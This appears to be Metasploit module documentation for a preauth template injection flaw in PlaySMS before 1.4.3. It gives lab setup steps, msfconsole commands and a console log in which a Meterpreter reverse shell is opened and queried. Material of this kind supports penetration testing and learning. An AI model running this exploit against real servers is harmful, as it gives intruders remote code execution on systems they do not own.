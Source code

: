 ## Vulnerable Application

### Description

This module exploits a preauth Server-Side Template Injection vulnerability that leads to remote code execution in PlaySMS before version 1.4.3. This issue is caused by double processing a server-side template with a custom PHP template system called 'TPL' which is used in the PlaySMS template engine at `src/Playsms/Tpl.php:_compile()`. The vulnerability is triggered when an attacker supplied username with a malicious payload is submitted. This malicious payload is then stored in a TPL template which when rendered a second time, results in code execution.

The TPL (https://github.com/antonraharja/tpl) template language is vulnerable to PHP code injection.

### Setup

Available at [Source Forge](https://sourceforge.net/projects/playsms/files/playsms/Version%201.4.2/playsms-1.4.2.tar.gz/download).

 1. Download the application
 2. Extract : `tar -xvf playsms-1.4.2.tar.gz`
 3. Move in to the web directory : `mv playsms-1.4.2/web/* /var/www/html/`
 4. Make the config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change the owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in the config.php file and dump playsms-1.4.2/db/playsms.sql in to your playsms database
 7. Now visit : http://localhost/

## Verification Steps

 1. Install the application (Tested on HactheBox Frolic Machine)
 2. Start msfconsole
 3. Do: `use exploit/multi/http/playsms_template_injection`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi /playsms`
 7. Do: `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable.
```

 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `run`
 13. You should get a shell.

## Scenarios

### Playsms on Ubuntu Linux

```
msf exploit(multi/http/playsms_template_injection) > options

Module options (exploit/multi/http/playsms_template_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS Before 1.4.3


msf exploit(multi/http/playsms_template_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/playsms_template_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf exploit(multi/http/playsms_template_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[+] X-CSRF-Token for login : c62b21bdb395dca92c18446217e31d7f
[*] Trying to Send Payload in Username Field ......
[+] Payload successfully sent
[*] Cookies here : PHPSESSID=p0jmmf1kpqfhpbpcgpbcfbhpv3;
[*] Sending stage (38288 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:51800) at 2020-04-02 17:30:53 -0500

meterpreter > getuid
Server username: www-data (1000)
meterpreter > sysinfo
Computer    : ec31d13f3520
OS          : Linux ec31d13f3520 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
